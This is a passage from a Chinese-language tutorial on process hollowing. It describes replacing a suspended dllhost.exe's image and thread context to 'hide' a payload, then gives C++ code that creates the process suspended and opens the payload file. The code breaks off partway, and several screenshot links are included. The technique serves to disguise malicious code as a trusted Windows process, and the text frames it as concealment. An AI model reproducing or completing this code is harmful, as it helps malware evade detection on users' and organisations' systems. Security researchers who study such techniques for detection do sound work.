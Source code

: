     这里是替换节区。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112175442.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112175444.png)

    走到这里就说明我们的PE已经被完全替换了，那么我们需要给他替换一下寄存器才能让他执行起来。

 **设置线程上下文，恢复线程**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112175445.png)

    ebx+8的位置本身存放的是原来默认的PE，我们这里给他替换成我们申请内存的PE，然后恢复线程基本就完成了我们的隐藏。
    
    
    #include <iostream>  
    #include <Windows.h>  
    #include <winternl.h>  
      
    #define EXE_PATH R"(C:\Users\admin\Desktop\code\傀儡进程\Debug\demo.exe)"  
      
    //int CALLBACK WinMain(  
    // HINSTANCE hInstance,  
    // HINSTANCE hPrevInstance,  
    // LPSTR lpCmdLine,  
    // int nCmdShow  
    //)  
    int main(void)  
    {  
      // 获取 32位dllhost.exe路径  
      char pickerHostPath[MAX_PATH] = { 0 };  
      ExpandEnvironmentStringsA("%SystemRoot%\\SysWOW64\\dllhost.exe", pickerHostPath, MAX_PATH);  
      
      // 打开进程  
      STARTUPINFOA si = { sizeof(STARTUPINFOA) };  
      PROCESS_INFORMATION pi = { 0 };  
      if (!CreateProcessA(NULL, pickerHostPath, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) // 挂起形式创建  
      {  
        return -1;  
      }  
      
      std::cout << "process pid:" << pi.dwProcessId << std::endl;  
      std::cin.get();  
      
      // 打开文件  
      HANDLE hFile = CreateFileA(EXE_PATH, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);  
      if (hFile == INVALID_HANDLE_VALUE)  
      {  
        // 打开失败结束之前的进程  
        TerminateProcess(pi.hProcess, 1);  
        return -1;  
      }  
      
      // 获取文件的大小  
      DWORD nSizeOfFile = GetFileSize(hFile, NULL);  
      std::cout << "file size:" << nSizeOfFile << std::endl;  
      